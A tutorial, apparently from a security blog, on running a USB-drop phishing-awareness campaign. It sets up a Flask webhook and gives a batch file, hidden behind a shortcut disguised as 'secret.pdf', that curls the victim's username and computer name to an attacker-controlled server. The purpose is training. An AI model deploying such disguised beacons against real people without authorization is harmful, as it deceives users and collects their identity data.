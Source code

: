 ```yaml
---
icon: usb
---
```


# USB stick awareness

If you watch Mr. Robot, you must remember a scene where Darlene drops several USB sticks around a prison in order to Elliot get an reverse shell access. All that is needed is someone to pick it up and plug into a computer. Pretty cool, right?

<figure><img src="../.gitbook/assets/usbstick.gif" alt=""><figcaption><p>Mr. Robot Season 1, Episode 6.</p></figcaption></figure>

So, I'm not actually going to show how to create a Rubber Ducky for malicious purposes, instead, let's create a social engineering campaign with regular USB sticks. The purpose is to drop the USB sticks and create awareness to every user.

We need an attacker machine, ideally Kali running a Flask server, and as many USB sticks as you want.

So, let's dive into it!

**Prerequisites**

* **Python**: Make sure you have Python installed on your machine. You can download it from python.org.
*   **Flask**: You can install Flask using pip. Open your terminal or command prompt and run:

    ```bash
    pip install Flask
    ```

**Step-by-Step Guide to Create a Webhook**

1.  **Create a New Directory**: Create a new directory for your webhook project and navigate into it.

    ```bash
    mkdir my_webhook
    cd my_webhook
    ```
2. **Create a Python File**: Create a new Python file, e.g., `webhook.py`, and open it in your text editor.
3.  **Write the Webhook Code**: Add the following code to `webhook.py`:

    ```python
    from flask import Flask, request, jsonify
    import logging

    app = Flask(__name__)

    # Set up logging
    logging.basicConfig(level=logging.INFO)

    @app.route('/webhook', methods=['POST'])
    def webhook():
        # Get the JSON data from the request
        data = request.json
        
        # Log the received data
        logging.info(f"Received data: {data}")

        # Respond with a success message
        return jsonify({"status": "success", "message": "Data received"}), 200

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=5000)
    ```
4.  **Run the Webhook Server**: In your terminal, run the following command to start the Flask server:

    ```bash
    python webhook.py
    ```

    The server will start and listen for incoming requests on `http://localhost:5000/webhook`.
5.  **Testing the Webhook**: You can test the webhook using a tool like curl or Postman. Here’s how to test it using curl: Open a new terminal window and run:

    {% code overflow="wrap" %}
    ```bash
    curl -X POST http://localhost:5000/webhook -H "Content-Type: application/json" -d "{\"username\":\"test_user\", \"message\":\"USB accessed\"}"
    ```
    {% endcode %}

    You should see a response indicating that the data was received, and the server logs should show the received data.

**Now for the USB stick**

1.  **Create a batch file**: Create a new batch file, **script.bat** in the root of the USB stick:

    {% code overflow="wrap" %}
    ```batch
    @echo off
    setlocal

    REM Open Social Engineering Awareness document
    start "" "awareness.pdf"

    REM Retrieve user information
    set USERNAME=%USERNAME%
    set COMPUTERNAME=%COMPUTERNAME%

    REM Set USERINFO with escaped quotes
    set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}

    echo Sending the following JSON: %USERINFO%

    REM Send the information to the Flask server
    curl -X POST http://server_ip:5000/webhook -H "Content-Type: application/json" -d "%USERINFO%"

    Endlocal
    ```
    {% endcode %}

    Make sure you change the **server\_ip** for the actual attacker machine IP.
2. **Download an .ico file**: We can use a .ico file repository like [https://www.shareicon.net/](https://www.shareicon.net/t) and download any pdf .ico you like. Place it at the root of the USB stick.
3. **Move the awareness.pdf** file also into the root of the USB stick.
4. **Create a shortcut of the script.bat file**: Right click the shortcut, go to properties and click on **Change icon** and choose the .ico file you just downloaded it. Then rename the file to something mysterious like **secret.pdf**
5. **Put all the files Hidden except for the shortcut, secret.pdf**: Then we untick the **Hidden items** option

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>All visible files</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>What the user will see, hopefully</p></figcaption></figure>

Sure, we can see it is a shortcut, and we must rely on the fact that the victim has the 'Hidden items' option unticked. However, the purpose is for the user to notice the small details and create awareness within the organization.

{% hint style="info" %}
If noticed in the script.bat had the following line:

{% code overflow="wrap" %}
```batch
set USERINFO={\"id\":\"0\",\"username\":\"%USERNAME%\", \"computername\":\"%COMPUTERNAME%\"}
```
{% endcode %}

The 'id' parameter is useful when multiple USB sticks are used. For example, you can number the USB sticks and adjust the script accordingly. If someone plugs in USB stick 1 on the first floor (build A, room X, etc.), you will receive the information on the Flask server.
{% endhint %}



